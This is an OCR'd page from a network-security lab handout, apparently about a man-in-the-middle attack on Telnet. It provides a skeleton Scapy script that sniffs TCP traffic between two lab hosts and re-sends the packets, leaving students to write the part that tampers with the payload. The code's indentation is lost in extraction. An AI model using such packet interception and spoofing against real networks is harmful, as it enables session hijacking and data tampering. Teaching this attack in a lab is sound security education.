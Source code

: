 - We run our sniff-and-spoof program on Host M, such that for the captured packets sent from A to B,
    we spoof a packet but with TCP different data. For packets from B to A (Telnet response), we do not
    make any change, so the spoofed packet is exactly the same as the original one.

To help students get started, we provide a skeleton sniff-and-spoof program below. The program captures
all the TCP packets, and then for packets from A to B, it makes some changes (the modification part is not
included, because that is part of the task). For packets from B to A, the program does not make any change.

```
#!/usr/bin/env python
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

def spoof_pkt(pkt):
if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
# Create a new packet based on the captured one.
# 1) We need to delete the checksum in the IP & TCP headers,
# because our modification will make them invalid.
# Scapy will recalculate them if these fields are missing.
# 2) We also delete the original TCP payload.


newpkt = IP(bytes(pkt[IP]))
del(newpkt.chksum)
del(newpkt[TCP].payload)
del(newpkt[TCP].chksum)

#################################################################
# Construct the new payload based on the old payload.
# Students need to implement this part.

if pkt[TCP].payload:
data = pkt[TCP].payload.load # The original payload data
newdata = data # No change is made in this sample code

send(newpkt/newdata)
else:
send(newpkt)
################################################################

elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
# Create new packet based on the captured one
# Do not make any change

newpkt = IP(bytes(pkt[IP]))
del(newpkt.chksum)
del(newpkt[TCP].chksum)
send(newpkt)

f = ’tcp’
pkt = sniff(iface=’eth0’, filter=f, prn=spoof_pkt)
```
